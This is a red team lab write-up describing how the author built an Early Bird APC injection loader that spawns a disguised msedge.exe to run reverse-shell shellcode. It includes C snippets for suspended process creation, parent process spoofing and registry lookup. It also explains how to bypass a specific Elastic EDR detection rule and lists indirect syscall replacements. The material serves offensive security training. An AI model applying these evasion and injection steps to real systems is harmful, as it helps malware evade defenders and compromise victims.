 ![](imgs/earlybird/EdgeCaseHeader.jpeg)

# Early Bird - Edge case

## Intro
In a recent red team lab - [Vulnlab](https://www.vulnlab.com/main/red-team-labs) - I had the challenge to establish initial access via phishing. Basically, after compromising an IT department email account, I had to send a phishing email targeting another account which was expecting to receive the "HR Tool". The target machine is running Elastic EDR agent and the goal was to evade detection and gain a foothold.

My initial thoughts were to create a program that uses of the Early Bird technique to spawn a new instance of MS Edge and inject a reverse shell shellcode. The reason to pick Edge as the target process is because security products can easily detect anomalous network connections, for example, it would be very suspicious if `Notepad.exe` process starts sending HTTP/S packets every 30s.

## The current directory issue
I wanted to spawn an instance of MS Edge as close to the original as possible to avoid detection. Here is how a legitimate `msedge.exe` process looks like in Process Hacker:
![](imgs/earlybird/img01.png)

When using `CreateProcessA` API or even the low-level `NtCreateUserProcess` we can specify the parameters and attributes for the process, such as the "Image file name", "Command line", even spoof the parent process. However, the one that was challenging to get it right was the "Current directory" since it contains the full path + version installed of Edge. I don't know what version is installed in the target. If we don’t specify anything and pass the `NULL` value, it will be populated with the current directory where the program was initiated:
![](imgs/earlybird/img02.png)
*Note: I am also spoofing the parent process as you can see it is showing as child of `explorer.exe`.*

See below a snippet of the code for spawning `msedge.exe` without specifying the "Current directory":
```C
...<snip>...
if (!CreateProcessA(
		"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
		"\"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe\"",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT,
		NULL,
		NULL,   // Current directory value
		&SiEx.StartupInfo,
		&Pi)) {
		printf("[!] CreateProcessA failed with error : %d \n", GetLastError());
		return FALSE;
	}
...<snip>...
```

On the other hand, if we specify the wrong directory, it will fail and the program will likely crash.

## Fetching Edge version from the registry
To solve this issue we need to retrieve the Edge version installed in the target system, concatenate with the path `C:\Program Files (x86)\Microsoft\Edge\Application\` and pass as the value for the current directory when spawning an instance of `msedge.exe`.

There are a few ways to do that, I decided to fetch the registry.
![](imgs/earlybird/img03.png)
We can find the Edge version installed under `HKEY_CURRENT_USER\Software\Microsoft\Edge\BLBeacon` registry, in the `version` key.

Building a POC to retrieve Edge version from the registry:
```C
#include <stdio.h>
#include <windows.h>

BOOL ReadEdgeVersionFromRegistry(OUT LPCSTR* ppPath) {
	LSTATUS status = NULL;
	DWORD dwBytesRead = 0;
	PBYTE pBytes = NULL;

	// MS Edge install registry location: Software\\Microsoft\\Edge\\BLBeacon
	char edgeReg[] = { 'S', 'o', 'f', 't', 'w', 'a', 'r', 'e', '\\', 'M', 'i', 'c', 'r', 'o', 's', 'o', 'f', 't', '\\', 'E', 'd', 'g', 'e', '\\', 'B', 'L', 'B', 'e', 'a', 'c', 'o', 'n', '\0' };

	// Key in registry containing the MS Edge version
	char edgeVersion[] = { 'v', 'e', 'r', 's', 'i', 'o', 'n', '\0' };

	// Fetching the version's size
	status = RegGetValueA(HKEY_CURRENT_USER, edgeReg, edgeVersion, RRF_RT_ANY, NULL, NULL, &dwBytesRead);
	if (ERROR_SUCCESS != status) {
		printf("[!] RegGetValueA Failed With Error : %d\n", status);
		return FALSE;
	}

	// Allocating heap that will store the version that will be read
	pBytes = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBytesRead);
	if (pBytes == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
		return FALSE;
	}

	// Reading the version from "edgeReg" key, from value "edgeVersion"
	status = RegGetValueA(HKEY_CURRENT_USER, edgeReg, edgeVersion, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);
	if (ERROR_SUCCESS != status) {
		printf("[!] RegGetValueA Failed With Error : %d\n", status);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}
	printf("\t[i] Found Edge version: %s\n", pBytes);

	/* Concatenate the version with the base path C:\\Program Files(x86)\\Microsoft\\Edge\\Application\\ */
	char basePath[] = { 'C', ':', '\\', 'P', 'r', 'o', 'g', 'r', 'a', 'm', ' ', 'F', 'i', 'l', 'e', 's', ' ', '(', 'x', '8', '6', ')', '\\', 'M', 'i', 'c', 'r', 'o', 's', 'o', 'f', 't', '\\', 'E', 'd', 'g', 'e', '\\', 'A', 'p', 'p', 'l', 'i', 'c', 'a', 't', 'i', 'o', 'n', '\\', '\0' };
	size_t basePathLen = strlen(basePath);
	size_t versionLen = dwBytesRead - 1; // Exclude the null-terminator from the version length

	// Allocate memory for the complete path
	*ppPath = (LPCSTR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, basePathLen + versionLen + 1);
	if (*ppPath == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Copy the base path to ppPath
	if (strcpy_s((char*)*ppPath, basePathLen + versionLen + 1, basePath) != 0) {
		printf("[!] strcpy_s Failed\n");
		HeapFree(GetProcessHeap(), 0, *ppPath);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Concatenate the version at the end of ppPath
	if (strcat_s((char*)*ppPath, basePathLen + versionLen + 1, (const char*)pBytes) != 0) {
		printf("[!] strcat_s Failed\n");
		HeapFree(GetProcessHeap(), 0, *ppPath);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Print the full concatenated path
	printf("\t[i] Edge full Path: %s\n", *ppPath);

	// Free the version buffer
	HeapFree(GetProcessHeap(), 0, pBytes);

	return TRUE;
}

int main() {

    printf("[i] Looking for MS Edge version in the registry\n");
    LPCSTR pEdgePath = NULL;
    if (!ReadEdgeVersionFromRegistry(&pEdgePath)) {
        printf("[-] Error retrieving Microsoft Edge path\n");
        return -1;
    }

    return 0;
}
```

Compile and run the code above, we can verify that it is working:
![](imgs/earlybird/img04.png)

## Parent process spoofing rule bypass
When I thought I was done, Elastic was detecting the parent process spoofing. Luckily, we can have  a look at Elastic detection [rules for PPID spoofing on Github](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/defense_evasion_parent_process_pid_spoofing.toml#L91). That is when I saw this on [line 91](https://github.com/elastic/protections-artifacts/blob/7cab0ce93881cef1b1073c3946aac790a284f554/behavior/rules/defense_evasion_parent_process_pid_spoofing.toml#L91):
![](imgs/earlybird/img05.png)

It seems that if `msedge.exe` has 2 or more arguments and parent is `sihost.exe` then we are good to go. I modified the "Command line" value and changed the parent process from `explorer.exe` to `sihost.exe`:
![](imgs/earlybird/img06.png)

Looks exactly what we need to get that initial foothold in the red team lab.

!!!  
The full code for the POC above can be found [on my Github repo here](https://github.com/caueb/EarlyBird-EdgeCase).   
!!!

## Final adjustments
For my final code I replaced most of the Windows API calls with indirect syscalls using [HellsHall](https://github.com/Maldev-Academy/HellHall). 

Here is a list of the APIs to replace from the POC:

POC WinAPI | Syscall {.compact}  
--- | ---
OpenProcessToken | NtOpenProcessToken
OpenProcess | NtOpenProcess
CreateProcessA | NtCreateUserProcess
VirtualAllocEx | NtAllocateVirtualMemory
WriteProcessMemory | NtWriteVirtualMemory
VirtualProtectEx | NtProtectVirtualMemory
QueueUserAPC | NtQueueApcThread
ResumeThread | NtResumeThread
CloseHandle | NtClose

After doing these modifications I successfully got my initial foothold and a reverse shell running under `msedge.exe`.